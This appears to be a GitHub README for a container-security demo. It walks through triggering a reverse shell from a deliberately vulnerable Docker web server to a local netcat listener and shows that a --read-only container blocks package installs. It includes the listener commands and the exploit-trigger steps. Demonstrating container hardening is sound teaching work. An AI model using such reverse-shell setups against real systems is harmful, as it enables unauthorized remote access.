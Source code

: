 # README.md
Demonstrates getting access into a container

## Find IP
```sh
#MacOS
LOCAL_IP=$(ifconfig en0 inet | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" | head -n 1)  
echo ${LOCAL_IP}
```

## No Protection
### Shell 1
Run the stupid webserver.  Retrieve your host ip address and replace. 
```sh
docker build --target no_protection -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2
Run the callback service in a seperate shell 
```sh
nc -l -p 8888 -vvv 
```

### Shell 3
Invoke the exploit against the web server
```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents. 
You will see a bash prompt that is connected to the container. 
```sh 
# Try and install something.
apt install curl

# Exiting will kill the container process
exit
```

## Readonly
### Shell 1
Run --read-only.   

```sh
docker build --target no_protection -t reverseshell . 
# Make sure that LOCAL_IP is set
docker run --read-only --env REMOTE_HOST=${LOCAL_IP} --env REMOTE_PORT=8888 --rm -p 8080:8080 reverseshell
```

### Shell 2
Run the callback service in a seperate shell 
```sh
nc -l -p 8888 -vvv 
```

### Shell 3
Invoke the exploit against the web server
```sh
curl localhost:8080
```

Now go back to shell 2 running the callback and list the contents. 
You will see a bash prompt that is connected to the container. 
```sh 
# Try and install something - but this time it FAILS.
apt install curl

# Exiting will kill the container process
exit
```

## Troubleshooting  
Test with a simple webservice  
```
docker run -it --rm -p 8080:8080 --entrypoint /bin/bash reverseshell
echo -e "HTTP/1.1 200 OK\n\n $(date)" | nc -l -p 8080 -q 1
curl localhost:8080
```

```
tmuxinator
tmuxinator stop reverseshell
```